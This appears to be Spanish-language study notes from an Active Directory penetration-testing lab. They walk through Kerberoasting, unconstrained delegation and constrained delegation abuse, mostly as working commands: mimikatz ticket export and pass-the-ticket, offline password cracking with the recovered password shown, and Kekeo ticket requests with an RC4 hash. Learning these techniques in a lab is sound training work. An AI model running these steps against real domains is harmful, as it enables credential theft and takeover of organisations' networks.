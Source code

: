 ..* `Add-Type -AssemblyNAme System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever46"`
Sacamos el TGS del servicio que hemos normado para crakear>
..*`Request-SPNTicket -SPN ops/whatever46`
Tambien se puede sacar el ticket con mimikatz:
..* `Invoke-Mimikatz -Command '"kerberos::list /export"'`
..* `python.exe .\tgsrepcrack.py .\10k-worst-pass.txt '1-40a10000-student46@ops~whatever46-DOLLARCORP.MONEYCORP.LOCAL.kirbi'` -->  Support@123 

Unconstrained delegation
--------------------------
Servicios:
------------
File Share - CIFS
● Scheduled Tasks - HOST
● WMI - HOST,RPCSS
● PS Remoting - HOST, HTTP,WSMAN
● WinRM - HTTP, WSMAN

Cuando esta opción está habilitada en un servidor, permite que cualquier servicio pueda impersonar al usuario para acceder a un segundo servicio.
Por ejemplo un servidor web puede impersonal a un usuario para poder acceder a un servidor de bases de datos.
Cuando está activado, cuando el usuario pide un TGS al DC, este mete dentro del TGS el TGT del usuario cifrado con el Hash del servidor, cuando el servidor recibe el TGS descifra el TGT y lo guarda en lsass (un usuario adminiatrador local puede extraer los TGT de los usuarios), el servidor cuando quiere acceder a otro servicio, pide directamente al DC un TGS con el TGT del usuario.
Mirar que servidores tienen activado el unconstrained delegation:
..* `Get-NetComputer -UnConstrained`
..* `Get-ADComputer -Filter {TrustedForDelegation -eq $True}`
..* `Get-ADUser -Filter {TrustedForDelegation -eq $True}`
--> DCORP-APPSRV
COn un usuario que tenga permiso de admin. local en el servidor. (mimikatz)
..* `$sess = New-PSSession -ComputerName dcorp-appsrv.dollarcorp.moneycorp.local`
..* `Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess`
..* `Enter-PSSession $sess`
..* `Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'`
Nos exporta todos los TGT ceados en la máquina.
Para hace un pash the ticket del ticket del administardor:
..* `copy '.\`[0;27aaa1`]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi' \\dcorp-student46.dollarcorp.moneycorp.local\C$\`
..* `Invoke-Mimikatz -Command '"kerberos::ptt [0;49742b]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`

Contrained Delegation
------------------------
El usuario se loga en el servidor web, este va al CD y solicita un silveticket para si mismo con las credenciales del usuario, si necesita acceso a un segundo servicio, y tiene marcada la posibilidad de delegar solicita un nuevo tgs para el otro servicio.
..* `Get-DomainUser –TrustedToAuth` --> websvc --> CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL, CIFS/dcorp-mssql
..* `Get-DomainComputer –TrustedToAuth` --> DCORP-ADMINSRV$
AD MOdule:
..* `Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`
Sacamos el TGT del servidor desde Kekeo:
..* `tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f`
